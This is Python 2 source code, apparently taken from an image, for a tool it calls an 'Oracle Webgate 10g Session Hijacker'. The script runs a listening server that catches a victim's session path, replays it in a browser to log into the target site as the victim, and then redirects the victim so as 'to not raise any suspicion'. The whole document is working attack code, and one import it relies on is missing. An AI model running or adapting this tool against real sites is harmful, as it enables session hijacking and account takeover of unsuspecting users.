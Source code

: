 ```
    import SocketServer  
    import sys  
    import argparse  
    import webbrowser  
    import time
    
    def redirect_handler_factory(domain):  
        class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
           def do_GET(self):
                if self.path.endswith("httponly") or self.path.endswith("%252F") or  self.path.endswith("do") or self.path.endswith("adfAuthentication"):
                    webbrowser.open_new("https://" + domain) #Load website in order to retrieve any other cookies needed to login properly
                    time.sleep( 5 )
                    webbrowser.open("https://"+ domain +"/" + self.path, new=0, autoraise=True) #Use received cookie to login on to the website
                    time.sleep( 5 )
                    self.send_response(301)
                    self.send_header('Location','https://'+ domain +'/'+ self.path) #Send same cookie to the victim and let him log-in as well, to not raise any suspicion ;)
                    self.end_headers()
                    return
                else:
                                print self.path
        return RedirectHandler
    
    
    def main():
    
        parser = argparse.ArgumentParser(description='Oracle Webgate 10g Session Hijacker')
    
        parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
        parser.add_argument('--ip', '-i', action="store", default="0.0.0.0", help='host interface to listen on')
        parser.add_argument('--domain','-d', action="store", default="localhost", help='domain to redirect the victim to')
    
        myargs = parser.parse_args()
    
        port = myargs.port
        host = myargs.ip
        domain = myargs.domain
    
        redirectHandler = redirect_handler_factory(domain)
    
        handler = SocketServer.TCPServer((host, port), redirectHandler)
        print("serving at port %s" % port)
        handler.serve_forever()
    
    if __name__ == "__main__":  
        main()
```
